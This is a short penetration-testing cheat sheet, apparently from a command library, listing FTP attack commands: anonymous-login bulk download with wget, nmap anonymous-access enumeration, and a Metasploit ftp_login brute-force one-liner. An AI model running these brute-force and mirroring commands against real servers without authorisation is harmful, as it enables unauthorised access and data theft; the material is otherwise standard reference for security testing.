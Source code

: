# FTP

% ftp, 21
#platform/linux  #target/remote  #port/21 #protocol/ftp 

## ftp - download all 
#cat/ATTACK/FILE_TRANSFER 
```
wget -m ftp://anonymous:anonymous@<ip>
```

## ftp download all (2)
#cat/ATTACK/FILE_TRANSFER
```
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## ftp - connect
#cat/ATTACK/CONNECT
```
ftp <ip>
```

## ftp - connect port
#cat/ATTACK/CONNECT
```
ftp <ip> <port>
```

## ftp - enum anonym
#cat/ATTACK/CONNECT
```
nmap -v -p 21 --script=ftp-anon.nse <ip>
```

## ftp - msf bruteforce login
#cat/ATTACK/BRUTEFORCE-SPRAY
```
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <password_file>; exploit"
```

